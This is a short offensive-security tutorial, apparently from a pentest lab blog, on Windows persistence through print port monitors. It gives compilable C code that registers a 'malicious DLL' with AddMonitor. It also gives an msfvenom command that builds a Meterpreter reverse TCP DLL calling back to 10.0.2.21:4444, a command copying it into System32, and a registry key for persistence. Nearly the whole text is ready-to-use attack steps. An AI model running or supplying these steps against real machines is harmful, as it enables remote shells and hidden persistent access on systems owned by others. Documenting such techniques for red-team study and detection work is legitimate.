 # Port Monitors

The following code can be compiled to produce an executable called Monitors.exe that will perform the registration of the malicious DLL.

```
#include "Windows.h"
 
int main() {
    MONITOR_INFO_2 monitorInfo;
    TCHAR env[12] = TEXT("Windows x64");
    TCHAR name[12] = TEXT("Monitor");
    TCHAR dll[12] = TEXT("test.dll");
    monitorInfo.pName = name;
    monitorInfo.pEnvironment = env;
    monitorInfo.pDLLName = dll;
    AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
    return 0;
}
```

The DLL can be generated through Metasploit utility msfvenom by executing the following command:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.21 LPORT=4444 -f dll > test.dll
```
The DLL needs to be copied into the System32 windows folder:
```
copy C:\Users\pentestlab\Desktop\test.dll C:\Windows\System32
```
From the command prompt executing the following application will perform the registration of the arbitrary DLL.
```
Monitors.exe
```
Persistence is achieved by creating the following registry key:
```
reg add "hklm\system\currentcontrolset\control\print\monitors\Pentestlab" /v "Driver" /d "test.dll" /t REG_SZ
```

